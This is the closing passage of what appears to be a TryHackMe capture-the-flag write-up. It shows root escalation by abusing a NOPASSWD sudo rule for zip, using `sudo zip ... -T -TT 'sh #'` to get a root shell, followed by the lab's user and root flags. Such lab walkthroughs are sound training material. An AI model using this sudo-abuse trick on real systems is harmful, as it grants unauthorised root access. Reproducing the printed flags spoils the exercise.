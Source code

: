 
## ROOT ACCESS

1. We find running the `sudo -l` command that we already have keys to the kingdoms. Check it out.

```bash
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# bash
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:~# cd 
root@ubuntu:~# cd /root/
root@ubuntu:/root# ls -la
total 32
drwx------  4 root root 4096 Mar 10  2020 .
drwxr-xr-x 22 root root 4096 Mar 10  2020 ..
-rw-------  1 root root   15 Mar 10  2020 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x  2 root root 4096 Mar 10  2020 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   17 Mar 10  2020 root.txt
drwxr-xr-x  2 root root 4096 Mar 10  2020 ufw
root@ubuntu:/root# cat root.txt 
**************
```

2. We get to root. Simple box. Get the rest things on you. Lazy ass.


## EXTRA TREATS

Work on your legs.

## FLAGS

1. Compromise this machine and obtain user.txt - `THM{GhostCat_1s_so_cr4sy}`.

2. Escalate privileges and obtain root.txt - `THM{Z1P_1S_FAKE}`.

**Stay Tuned On**\
[Github](https://github.com/pratty010/Boxes)\
[LinkedIn](https://www.linkedin.com/in/pratyush-prakhar/)
